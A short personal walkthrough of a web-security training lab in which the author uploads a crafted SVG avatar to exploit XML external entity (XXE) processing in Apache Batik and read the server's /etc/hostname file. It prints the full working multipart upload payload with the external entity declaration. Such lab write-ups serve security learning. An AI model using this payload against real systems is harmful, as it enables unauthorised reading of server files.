 # Practitioner Lab 57: Exploiting XXE via image file upload

---

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

![Untitled](Practitioner%20Lab%2057%20Exploiting%20XXE%20via%20image%20file%20%20168d36d5170b4abc83165a03790f46e4/Untitled.png)

I went and found an svg image to see if it would allow me to upload it. Since SVG is basically an xml image so the system might just allow it.

I used the following payload

```
Content-Disposition: form-data; name="avatar"; filename="exploit.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

![Untitled](Practitioner%20Lab%2057%20Exploiting%20XXE%20via%20image%20file%20%20168d36d5170b4abc83165a03790f46e4/Untitled%201.png)

This was the answer.

![Untitled](Practitioner%20Lab%2057%20Exploiting%20XXE%20via%20image%20file%20%20168d36d5170b4abc83165a03790f46e4/Untitled%202.png)

This solved the lab.